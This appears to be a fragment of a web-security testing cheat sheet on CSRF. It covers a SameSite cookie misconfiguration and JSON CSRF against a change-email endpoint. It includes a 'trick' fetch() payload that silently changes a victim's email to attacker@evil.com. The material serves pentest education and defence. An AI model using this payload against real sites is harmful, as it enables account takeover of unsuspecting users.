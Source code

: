 ### 2. SameSite Cookie Misconfig

### Scenario:

Cookie is not marked as `SameSite` or is set to `SameSite=None` without `Secure`.

```bash
Set-Cookie: session=xyz; SameSite=None
```

###  Endpoint:

```graphql
POST /user/change-password
```

> Test using your CSRF PoC: if cookies are sent, this may work.

### Impact:

**Login session** is used in a forged request from another origin.

### 3. JSON CSRF (a.k.a. JSON Hijacking)

### 🔓 Scenario:

Application uses JSON API:

```
POST /api/change-email
Content-Type: application/json
```

Protection fails if:

-   Token is not required
-   CORS not enforced correctly

Browser auto-sends cookies even for JSON unless:

-   `SameSite` blocks it
-   CORS blocks it

###  Trick:

Use JavaScript to submit JSON:

```js
fetch('<https://target.com/api/change-email>', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({email: "attacker@evil.com"})
});

```
